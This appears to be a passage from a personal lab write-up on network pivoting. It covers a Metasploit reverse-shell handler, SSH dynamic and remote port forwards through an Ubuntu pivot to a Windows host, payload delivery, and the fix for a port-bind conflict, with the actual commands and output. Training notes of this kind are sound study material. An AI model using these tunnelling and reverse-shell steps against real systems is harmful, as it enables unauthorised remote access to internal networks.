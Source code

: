 ### **Lab Success Criteria**
✅ **Payload created** with correct LHOST (172.16.5.129)  
✅ **Metasploit handler** listening on 0.0.0.0:8000  
✅ **SSH dynamic forward** established for RDP access  
✅ **Python web server** serving payload from pivot  
✅ **RDP connection** to Windows target via proxychains  
✅ **Payload downloaded** on Windows target  
✅ **SSH remote forward** tunnel active  
✅ **Reverse shell** received via tunnel

---

## **🎯 Practical Lab Experience - July 19, 2025**

### **Real-World Implementation Success**

**Lab Environment:**
- **Target Machine:** `10.129.202.64` (Ubuntu Pivot)
- **Windows Target:** `172.16.5.19` (Internal network)
- **Attack Host:** Kali Linux (Local machine)

### **Problem Encountered: Port Conflict**

**Issue:** Metasploit handler failed to bind to port 8000
```bash
[-] Handler failed to bind to 0.0.0.0:8000
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use
```

**Root Cause Analysis:**
```bash
# Found old SSH tunnel process occupying port 8000
ps aux | grep ssh
# Output: ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.202.64 -vN (PID 594233)

# Port was indeed occupied
netstat -an | grep 8000
# Output: tcp 0 0 0.0.0.0:8000 0.0.0.0:* LISTEN
```

### **Solution Applied**

**Step 1: Port Resolution**
```bash
# Killed old SSH tunnel process
kill 594233

# Alternative: Used different port
# In Metasploit:
set LPORT 8001
run
# Output: [*] Started HTTPS reverse handler on https://0.0.0.0:8001
```
